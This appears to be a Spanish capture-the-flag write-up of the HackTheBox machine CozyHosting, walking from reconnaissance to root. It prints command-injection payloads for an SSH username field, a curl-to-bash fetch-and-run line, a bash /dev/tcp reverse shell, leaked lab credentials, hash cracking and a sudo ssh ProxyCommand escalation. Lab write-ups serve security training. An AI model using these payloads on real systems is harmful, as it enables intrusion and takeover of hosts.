# CozyHosting

```bash
nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.229.88 -oN scan_nmap.txt
```



-Launchpad -> Jammy

```bash
whatweb "http://10.129.229.88"
```



- Es un nginx, añadiremos el host *cozyhosting.htb* a /etc/hosts
Ahora nos reporta más info



Nos encontramos esto al pinchar en el logo del index.html



Si accedemos a *http://cozyhosting.htb/error*



Con Gobuster encontramos direcciones que parecen algún tipo de leak de información
```bash
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200 2>/dev/null
```



Aplicandole urldecode intento sacar alguna credencial pero no encuentro nada

No encuentro subdominios con *wfuzz*
```bash
wfuzz -c -t 200 --hc=301 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.cozyhosting.htb" http://cozyhosting.htb
```

`
Intentamos con gobuster pero tampoco responden los encontrados
```bash
gobuster vhost -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```



Retrocedemos.

Si buscamos en google el error que nos sale *This application has no explicit mapping for /error, so you are seeing this as a fallback.*, veremos que se trata de una **Spring Boot Application**.
- Buscaremos algún diccionario de Spring dentro de nuestro /usr/share/Seclists para pasarle a *gobuster* y que tenga un mayor % de match.
```bash
find . -name \*spring\*
```

No encontramos ninguno asique nos lo descargamos buscando
- *spring boot seclist web discovery*
```bash
sudo mv /home/qarlg/Descargas/Java-Spring-Boot.txt /usr/share/seclists/Discovery/Web-Content
```

Lo emplearemos ahora con gobuster
```bash
gobuster dir -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/Java-Spring-Boot.txt -t 200
```



Entrando parecen trazas en formato JSON
En */actuator/sessions*



Encontramos lo que parecen usuarios y cookies de sesión. Intetaremos cambiarla en F12 -> Almacenamiento -> Refresh





Accedemos como *K.Anderson*

Vemos lo que parece un panel de configuración de conexión hacia un host remoto



Al intentar conectarnos a *localhost* con el usuario *test*, obtenemos pista de que lo que está corriendo es **ssh**, ya que se menciona que no existe un archivo *.ssh/authorized_keys*



Por lo tanto, tendremos corriendo en el fondo un comando del tipo
```bash
ssh -i id_rsa (usuario)@(ip)
```

Podiendo nosotros modificar tanto el *usuario* como la *ip*.
Intentaremos hacer una ejecución remota de código aplicando **;** después de nuestro comando *username* para comentar todo lo que haya después
Intentaremos un *whoami* empleando la siguiente lógica

```bash
ssh -i id_rsa test;whoami;#@localhost
```

- **;** para terminar el comando whoami
- **#** para comentar el resto del comando inicial
```bash
#@localhost
```

escribiremos
**localhost**
**test;whoami;#**



Probaremos indicandole nuestra ip en lugar de localhost
**10.10.17.61**
**test;whoami;#**



Intentaremos indicarle un usuario existente, como **kanderson** que aparecía en */actuator/sessions*
**10.10.17.61**
**kanderson;whoami;#**



No estamos viendo output, intentaremos ejecutar un comando más visual, como por ejemplo un
```bash
curl 10.10.17.61
```

hacia nuestra máquina
Nos ponemos a la escucha en un servidor http por el puerto 80 que es el por defecto
```bash
python3 -m http.server 80
```

Escribimos
**10.10.17.61**
**kanderson;curl 10.10.17.61;#**



Emplearemos una variable de entorno **${IFS}** que contiene un espacio y un salto de línea
```bash
echo -n "${IFS}" | od -c
```

- od -c: muestra el contenido en bytes



Escribiremos
**10.10.17.61**
**kanderson;curl${IFS}10.10.17.61;#**
Ahora no nos sale error



Obtenemos una petición GET

Esta petición irá buscando un *index.html* por lo que podremos crear el nuestro malicioso y el servidor lo obtendrá ejecutando lo que haya dentro, que será nuestro onliner de reverse shell
```bash
nano index.html
```

```
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.17.61/443 0>&1"
```
```bash
python3 -m http.server 80
nc -nlvp 443
```

No obtendremos ningún resultado, la máquina está obteniendo nuestro recurso *index.html* pero no ejecuta nada, tendremos que pasárselo a una bash
Escribiremos
**10.10.17.61**
**kanderson;curl${IFS}10.10.17.61|bash**
Dentro
**app**

## Escalada

```bash
lsb_release -a
```



Confirmamos **jammy**

Encontramos un archivo **.jar** en el directorio */app* (está a la altura de /home). Nos lo pasaremos a nuestra máquina
MVíc:
```bash
python3 -m http.server
```

K:
```bash
wget http://cozyhosting.htb:8000/cloudhosting-0.0.1.jar
```

Lo analizaremos con **jd-gui**
```bash
jd-gui cloudhosting-0.0.1.jar
```

Encontramos credenciales hardcodeadas en
**/BOOT-INF/classes/htb.cloudhosting/scheduled/FakeUser.class**



**kanderson:MRdEQuv6~6P9**
Son válidas para entrar en la web -> accedemos como K.Anderson sin necesidad de robar cookie

NO sirven para josh ni root

Encontramos otro archivo interesante con credenciales en **/BOOT-INF/classes/application.properties** para lo que parece ser un *postgreSQL* corriendo en la máquina por el puerto 5432



**POSTGRESQL:postgres:Vg&nvzAQ7XxR**

Podemos conectarnos a postgres en la máquina con **psql**





Comprobamos que hay un servicio en el puerto *5432*
```bash
ss -nltp
```



```bash
psql -h localhost -U 'postgres' -W
```

Accedemos a **psql**
```
\l
```

-> mostrar databases



```
\c cozyhosting
```

-> entrar a la database



```
\d users
```

-> listar la tabla



```
select * from users;
```



Nos copiamos los dos hashes a un archivo y utilizaremos una utilizad para ver de qué tipo son y cómo podemos crackearlos (o intentarlo)

Seleccionamos con ctrl+alt+ratón los hashes para cogerlos en vertical y los metemos en *hashes*
```bash
hashid -m hashes
```




Ya sabemos de antemano que estos hashes están en bcrypt por lo que lo confirma y además nos dice el modo que debemos emplear en *hashcat*
```bash
hashcat hashes /usr/share/wordlists/rockyou.txt -m 3200
```



Encontramos que la contraseña para el hash del usuario admin es
**admin:manchesterunited**
**josh**

```bash
sudo -l
```

**(root) /usr/bin/ssh ***

GTFOBins -> ssh
```bash
sudo ssh -o ProxyCommand=';/bin/sh 0<&2 1>&2' x
```

**root**
